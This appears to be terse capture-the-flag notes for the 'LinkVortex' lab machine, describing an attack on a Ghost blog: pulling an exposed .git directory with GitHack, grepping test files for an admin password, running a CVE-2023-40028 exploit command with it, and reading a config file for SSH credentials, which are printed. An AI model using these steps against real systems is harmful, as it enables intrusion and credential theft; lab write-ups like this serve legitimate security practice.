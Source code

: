this directories to login user found in robots.txt 
http://linkvortex.htb/ghost/#/signin
than we found .git in dev.linkvertex.htb
the use GitHach where we found 
cd home/kali/Desktop/tools/GitHack/dev.linkvortex.htb/ghost/core/test/regression/api/admin
grep -n "password" authentication.test.js

admin@linkvertex.htb:OctopiFociPilfer45
then we found it in Dockerfile that we found after GitHack in directories dev.linkvortex.htb
that we open with use CVE
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb

/var/lib/ghost/config.production.json
credentials to ssh bob@ip:
bob:fibber-talented-worth

